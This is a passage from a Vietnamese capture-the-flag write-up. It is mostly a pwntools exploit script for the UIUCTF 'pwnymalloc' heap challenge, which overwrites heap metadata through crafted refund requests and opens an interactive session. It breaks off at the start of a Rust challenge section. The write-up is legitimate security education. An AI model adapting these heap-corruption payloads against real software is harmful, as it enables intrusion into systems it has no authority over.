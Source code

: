 **Script của mình:**
```python
from pwn import *
import os

del os.environ['WT_SESSION']
context.log_level = 'debug'
context.binary = exe = ELF('./chal')

libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')

gs = '''
     b *handle_refund_status
     b *handle_complaint
     b *coalesce
     c
     '''

match sys.argv[1]:
    case "run":
        p = process(exe.path)
    case "debug":
        p = gdb.debug(exe.path, gs)
    case "remote":
        p = remote('pwnymalloc.chal.uiuc.tf', 1337, ssl=True)
    case default:
        p = "nothing"

def submit(data):
    p.sendlineafter(b'> ', b"1")
    p.sendlineafter(b'Please enter your complaint:\n', data)

def request(num, payload):
    p.sendlineafter(b'> ', b"3")
    p.sendlineafter(b'would like refunded:\n', str(num))
    p.sendafter(b'your refund request:\n', payload)

def check(id):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'your request ID:\n', str(id).encode())

def main():
    payload = 11 * p64(0xf0) + 4 * p64(0x0) + b'\xc0' + 6 * b'\x00' 
    request(1, payload)
    request(1, payload)
    submit(7 * p64(0x51))

    payload = 15 * p64(0x1) + 7 * b'\x00'
    request(1, payload)

    check(1)

    p.interactive()

if __name__ == "__main__":
    main()
```
## RUSTY POINTERS
Đây là một rust challenge sử dụng glibc 2.31. May mắn là chúng ta được cho cả file source.
```rust
fn menu() {
	println!("1. Create a Rule or Note");
	println!("2. Delete a Rule or Note");
```